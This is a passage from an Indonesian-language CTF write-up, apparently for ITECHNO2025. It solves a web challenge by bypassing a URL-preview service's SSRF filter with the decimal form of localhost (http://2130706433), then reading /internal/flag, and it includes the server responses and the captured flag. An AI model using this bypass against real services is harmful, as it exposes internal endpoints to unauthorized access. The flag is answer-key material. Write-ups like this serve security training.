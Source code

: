 	- `http://2130706433/app.js`
- Jika kita coba, secara otomatis mengembalikan respons JSON seperti ini:

```json
{
  "ok": true,
  "status": 200,
  "headers": {
    "content-type": "application/javascript; charset=UTF-8",
    "server": ""
  },
  "bodyPreview": "\n(function(){\n  const form = document.getElementById('previewForm');\n  const urlInput = document.getElementById('urlInput');\n  const result = document.getElementById('result');\n  const srvport = document.getElementById('srvport');\n  const uptime = document.getElementById('uptime');\n\n  // Expose current port (not a hint; just UI info)\n  fetch('/healthz').then(() => {\n    try {\n      // Port is embedded by the server (via same-origin); here we infer from location\n      const p = window.location.port || (window.location.protocol === 'https:' ? '443' : '80');\n      srvport.textContent = p;\n    } catch(_) {}\n  });\n\n  // Fake uptime counter (client-side)\n  const start = Date.now();\n  setInterval(() => {\n    const secs = Math.floor((Date.now() - start)/1000);\n    uptime.textContent = secs + 's';\n  }, 1000);\n\n  form.addEventListener('submit', async (e) => {\n    e.preventDefault();\n    result.textContent = 'Fetching…';\n    try {\n      const resp = await fetch('/api/preview', {\n        method: 'POST',\n        headers: {'Content-Type': 'application/json'},\n        body: JSON.stringify({ u: urlInput.value })\n      });\n      const data = await resp.json();\n      result.textContent = JSON.string"
}
```

> [!Tip] File `app.js` itu udah ada by default dan bisa diakses dari publik.

- Jika udah bisa, langsung aja kita akses internal endpoint yang menyimpan flag, yaitu `/internal/flag`.

```json
{
  "ok": true,
  "status": 200,
  "headers": {
    "content-type": "application/json; charset=utf-8",
    "server": ""
  },
  "bodyPreview": "{\"ok\":true,\"flag\":\"ITECHNO2025{W3b_TR00o5Ss}\"}"
}
```

### Flag

==ITECHNO2025{W3b_TR00o5Ss}==

# OSINT

## Stalker 1
